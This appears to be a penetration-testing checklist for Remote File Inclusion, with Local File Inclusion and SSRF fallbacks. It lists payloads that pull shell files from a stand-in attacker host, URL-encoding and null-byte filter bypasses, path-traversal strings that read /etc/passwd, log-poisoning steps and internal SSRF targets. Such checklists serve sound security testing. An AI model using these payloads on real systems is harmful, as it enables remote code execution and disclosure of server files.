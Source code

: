 1.  **Initial Information Gathering**
    - [ ] Identify and map all endpoints that accept file path or URL inputs.
    - [ ] Review source code (if available) to understand file handling mechanisms.
    - [ ] Check for endpoints where URLs or file paths are passed as parameters in URLs, headers, or body.

2.  **Basic RFI Testing**
    - [ ] `http://Attacker.com/shell.txt`
    - [ ] `http://Attacker.com/shell.php`
    - [ ] `ftp://Attacker.com/shell.txt`
    - [ ] `ftp://Attacker.com/shell.php`
    - [ ] Try including remote files hosted on different servers.

3.  **URL Manipulation**
    - [ ] Use different URL schemes (`HTTP`, `HTTPS`, `FTP`).
    - [ ] Use different file extensions (e.g., `.txt`, `.php`, `.jpg`).
    - Test bypass techniques for URL filters and restrictions:
        - [ ] Using URL encoding: `http%3A%2F%2Fattacker.com%2Fshell.txt`
        - [ ] Using double URL encoding: `http%253A%252F%252Fattacker.com%252Fshell.txt`
        - [ ] Using mixed case URL encoding: `hTtP://aTtAcKeR.com/sHeLl.TxT`

4.  **Advanced URL Manipulation Techniques**
    - [ ] Test for double encoding vulnerabilities.
    - [ ] Try bypassing filters with non-standard encodings and mixed encodings.
    - Use variations of URLs to bypass filters:
        - [ ] `http://attacker.com/shell.txt%00.jpg`
        - [ ] `http://attacker.com/shell.txt?.jpg`
        - [ ] `http://attacker.com/shell.txt#.jpg`

5.  **File Upload and Inclusion**
    - [ ] Check if file upload functionalities are present and try uploading files for inclusion.
    - [ ] Test inclusion of uploaded files to execute code (e.g., web shells).

6.  **Log Poisoning and Inclusion**
    - [ ] Inject payload into User-Agent, Referer, or other headers.
    - [ ] Include poisoned log files to execute injected payloads.

7.  **Error Handling and Response Analysis**
    - [ ] Analyze server responses for clues about the presence of RFI vulnerabilities.
    - [ ] Look for error messages that disclose file paths or other sensitive information.
    - [ ] Verify if application stack traces are exposed in responses.

8.  **Local File Inclusion (LFI) Fallback Testing**
    - [ ] If RFI is not possible, test for Local File Inclusion (LFI) vulnerabilities.
    - Test common LFI payloads to include local files:
        - [ ] `../../../../etc/passwd`
        - [ ] `..%2F..%2F..%2F..%2Fetc%2Fpasswd`
        - [ ] `../../../../../../../../../../../etc/passwd`

9.  **Server-Side Request Forgery (SSRF)**
    - [ ] Test for SSRF vulnerabilities that can be exploited to achieve RFI.
    - Attempt to include internal resources via SSRF:
        - [ ] `http://localhost:8080/`
        - [ ] `http://127.0.0.1/`
        - [ ] `http://internal-service/`